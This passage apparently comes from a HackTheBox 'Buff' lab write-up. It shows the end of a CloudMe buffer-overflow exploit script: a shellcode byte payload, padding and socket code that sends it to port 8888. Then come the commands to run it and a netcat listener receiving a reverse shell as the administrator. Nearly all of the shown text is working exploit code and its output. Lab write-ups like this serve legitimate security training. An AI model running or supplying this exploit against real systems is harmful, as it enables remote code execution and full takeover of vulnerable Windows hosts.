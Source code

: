```python
payload += b"\xa6\x45\x6d\x23\x99\x75\xe5\x61\x16\xfd\xab\x91"
payload += b"\xad\x73\x64\x96\x06\x39\x52\x99\x97\x12\xa6\xb8"
payload += b"\x1b\x69\xfb\x1a\x25\xa2\x0e\x5b\x62\xdf\xe3\x09"
payload += b"\x3b\xab\x56\xbd\x48\xe1\x6a\x36\x02\xe7\xea\xab"
payload += b"\xd3\x06\xda\x7a\x6f\x51\xfc\x7d\xbc\xe9\xb5\x65"
payload += b"\xa1\xd4\x0c\x1e\x11\xa2\x8e\xf6\x6b\x4b\x3c\x37"
payload += b"\x44\xbe\x3c\x70\x63\x21\x4b\x88\x97\xdc\x4c\x4f"
payload += b"\xe5\x3a\xd8\x4b\x4d\xc8\x7a\xb7\x6f\x1d\x1c\x3c"
payload += b"\x63\xea\x6a\x1a\x60\xed\xbf\x11\x9c\x66\x3e\xf5"
payload += b"\x14\x3c\x65\xd1\x7d\xe6\x04\x40\xd8\x49\x38\x92"
payload += b"\x83\x36\x9c\xd9\x2e\x22\xad\x80\x26\x87\x9c\x3a"
payload += b"\xb7\x8f\x97\x49\x85\x10\x0c\xc5\xa5\xd9\x8a\x12"
payload += b"\xc9\xf3\x6b\x8c\x34\xfc\x8b\x85\xf2\xa8\xdb\xbd"
payload += b"\xd3\xd0\xb7\x3d\xdb\x04\x17\x6d\x73\xf7\xd8\xdd"
payload += b"\x33\xa7\xb0\x37\xbc\x98\xa1\x38\x16\xb1\x48\xc3"
payload += b"\xf1\xb4\x86\xdb\x07\xa1\x94\xdb\x06\x8a\x10\x3d"
payload += b"\x62\xfc\x74\x96\x1b\x65\xdd\x6c\xbd\x6a\xcb\x09"
payload += b"\xfd\xe1\xf8\xee\xb0\x01\x74\xfc\x25\xe2\xc3\x5e"
payload += b"\xe3\xfd\xf9\xf6\x6f\x6f\x66\x06\xf9\x8c\x31\x51"
payload += b"\xae\x63\x48\x37\x42\xdd\xe2\x25\x9f\xbb\xcd\xed"
payload += b"\x44\x78\xd3\xec\x09\xc4\xf7\xfe\xd7\xc5\xb3\xaa"
payload += b"\x87\x93\x6d\x04\x6e\x4a\xdc\xfe\x38\x21\xb6\x96"
payload += b"\xbd\x09\x09\xe0\xc1\x47\xff\x0c\x73\x3e\x46\x33"
payload += b"\xbc\xd6\x4e\x4c\xa0\x46\xb0\x87\x60\x76\xfb\x85"
payload += b"\xc1\x1f\xa2\x5c\x50\x42\x55\x8b\x97\x7b\xd6\x39"
payload += b"\x68\x78\xc6\x48\x6d\xc4\x40\xa1\x1f\x55\x25\xc5"
payload += b"\x8c\x56\x6c"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

Start a netcat listener and run the script:

```python
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/buff]
└─$ mv 48389.py bof-cloudme.py

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/buff]
└─$ python3 bof-cloudme.py
```

Look at the netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/buff]
└─$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.198] 49801
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

whoami
whoami
buff\administrator
```
